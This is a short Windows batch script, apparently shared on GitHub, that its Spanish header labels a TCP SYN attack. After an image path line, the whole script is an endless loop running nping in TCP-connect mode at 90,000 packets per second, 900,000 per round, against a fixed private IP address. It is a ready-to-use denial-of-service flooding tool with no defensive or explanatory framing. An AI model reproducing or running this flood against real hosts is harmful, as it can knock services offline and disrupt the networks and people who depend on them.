 # tcpsyn con nping
@ECHO OFF
ECHO ATAQUE TCP SYN (c) hackingyseguridad 2016. Version 2.
ECHO Requiere tener instalado en el PC, nping incluido en Zenmap https://nmap.org/download.html
:loop
nping --tcp-connect -rate=90000 -c 900000 -q 192.168.1.252
goto loop
